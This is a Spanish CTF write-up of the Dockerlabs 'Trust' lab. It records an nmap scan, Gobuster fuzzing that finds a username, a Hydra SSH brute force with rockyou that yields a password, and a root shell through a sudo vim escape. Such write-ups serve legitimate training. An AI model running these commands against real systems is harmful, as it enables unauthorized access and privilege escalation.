






# Writeup: TRUST - Dockerlabs
- **Dificultad:** Muy Fácil
- **Plataforma:** Dockerlabs
- **IP Objetivo:** 172.17.0,2
- **Técnicas Clave:** Fuzzing Web, Fuerza Bruta SSH. Escalada de Privilegios
### Reconocimiento y Escaneo de Puertos
Se inicio con un escaneo completo de puertos TCP con deteccion de servicios y scripts por defecto:
	
	$nmap -p- --open -sS -sC -sV 172.17.0.2 -n -Pn

	
#### Puertos descubiertos:
- **22/tcp** *(OpenSSH)*
- **80/tcp** *(Apache httpd)*
### Enumeracion Web
Al navegar a *http://172.17.0.2/*, se observo la pagina por defecto de Apache2. Se procedio al descubrimiento de rutas ocultas mediante Gobuster, filtrando respuestas wildcard por tamaño:

    $ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/directory-lists-2.3-small.txt -x php,html,txt --exclude-length 10701 -t 30

    
#### Resultado:
- **Ruta descubierta:** *http:172.17.0.2/secret.php* (status 200, size 927).
- Al inspeccionar el contenido de *secret.php*, se identifico el mensaje:

	

- Esto revelo un nombre de usuario potencial en el sistema: *mario*.
### Acceso Inicial
Con el usuario identificado y el puerto 22 abierto, se ejecuto un ataque de fuerza bruta con Hydra y el diccionario rockyou:

    $ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 16 -f -V

#### Credenciales Obtenidas:
- **Usuario**: *mario*
- **Contraseña**: *chocolate*
#### Conexion Exitosa por SSH:

    $ ssh mario@172.17.0.2
	
### Escalado de Privilegios
 Una vez dentro de la sesion de mario, se comprobaron los privilegios de sudo asignados al usuario:
 
    $ sudo -l
	
#### Salida Relevante:
El binario /usr/bin/vim puede ejecutarse con permisos de superusuario sin contraseña.

### Explotacion (GTFOBins)
Se utilizo el escape interactivo de vim para invocar una shell como root:

    $ sudo vim -c ':!/bin/sh'

Comprobacion de privilegios:

